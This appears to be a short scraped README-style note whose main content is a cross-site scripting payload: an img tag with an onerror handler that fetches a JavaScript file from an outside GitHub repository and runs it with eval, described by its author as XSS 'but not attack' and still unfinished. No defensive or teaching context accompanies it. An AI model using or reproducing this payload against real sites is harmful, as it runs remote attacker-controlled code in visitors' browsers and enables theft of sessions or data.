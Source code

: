 Still not working on it
to use use this code as a XSS but not attack: <img src=# onerror='fetch("https://raw.githubusercontent.com/skibidiking33/idkyet/main/together.js").then(r=>r.text()).then(c=>eval(c))'>

i cant tell the password
